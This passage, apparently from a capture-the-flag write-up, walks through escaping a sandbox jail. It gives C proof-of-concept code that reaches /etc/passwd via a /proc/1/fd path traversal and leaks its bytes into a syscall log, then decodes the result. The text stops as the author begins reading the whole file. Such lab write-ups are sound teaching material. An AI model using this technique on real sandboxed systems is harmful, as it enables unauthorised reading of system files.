 This simply creates a 64 byte buffer, sets the first element to 0xdfdf (57311 in decimal), writes that to the log, and exits. If this works, I’d expect to see a Syscall 57311 in the logs with return 0.

I’ll compile the binary with `gcc -o poc read_file.c`, and upload `poc`. In the results, in the “Ignored Syscalls” section, I’ll find it:

![image-20220907141700007](https://0xdfimages.gitlab.io/img/image-20220907141700007.png)

#### Read File

Now I’ll try to read a file outside the jail and put the first eight bytes into that same log:

```

#include <stdio.h>

int main() {
    FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
    FILE *log = fopen("/log", "a");
    char buf[64] = {0};
    ((unsigned long*)buf)[0] = 0xdfdf;
    fread(&buf[56], 1, 8, file_to_read);
    fwrite(buf,1,64,log);

    fclose(file_to_read);
    fclose(log);
}

```

The `fread` will get 8 bytes from `passwd` and store it 56 bytes into the 64 byte buffer, which is where the return code goes.

When I compile and upload this one, the entry for 0xdfdf has a non-zero response:

![image-20220907142040142](https://0xdfimages.gitlab.io/img/image-20220907142040142.png)

That decodes to `root:x:0` (once the byte order is fixed):

```

>>> bytes.fromhex('303a783a746f6f72').decode()
'0:x:toor'
>>> bytes.fromhex('303a783a746f6f72').decode()[::-1]
'root:x:0'

```

That’s success.

#### Read Entire File

Next I want to get more than eight bytes. I’ll loop over the file, reading 8 bytes into the return address, and and writing another log entry:
